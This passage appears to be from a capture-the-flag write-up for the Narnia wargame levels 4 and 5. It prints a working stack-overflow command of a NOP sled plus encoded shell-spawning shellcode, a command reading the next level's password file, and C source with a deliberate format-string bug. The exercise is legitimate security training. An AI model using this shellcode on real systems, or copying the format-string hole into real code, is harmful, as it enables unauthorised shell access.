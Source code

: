 We got the shell as user narnia4 and let try outside gdb , copy this 

```
`./narnia4 echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81\xe0\xd4\xff\xff"`
```

<img src="img/Pasted image 20240720220219.png" alt="Example Image" width="1080"/>

```
cat /etc/narnia_pass/narnia5
```

----


**Narnia5**

```
narnia5@gibson:~$ cd /narnia/
narnia5@gibson:/narnia$ cat narnia5.c 
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){
        int i = 1;
        char buffer[64];

        snprintf(buffer, sizeof buffer, argv[1]);
        buffer[sizeof (buffer) - 1] = 0;
        printf("Change i's value from 1 -> 500. ");

        if(i==500){
                printf("GOOD\n");
        setreuid(geteuid(),geteuid());
                system("/bin/sh");
        }

        printf("No way...let me give you a hint!\n");
        printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
        printf ("i = %d (%p)\n", i, &i);
        return 0;
}
```
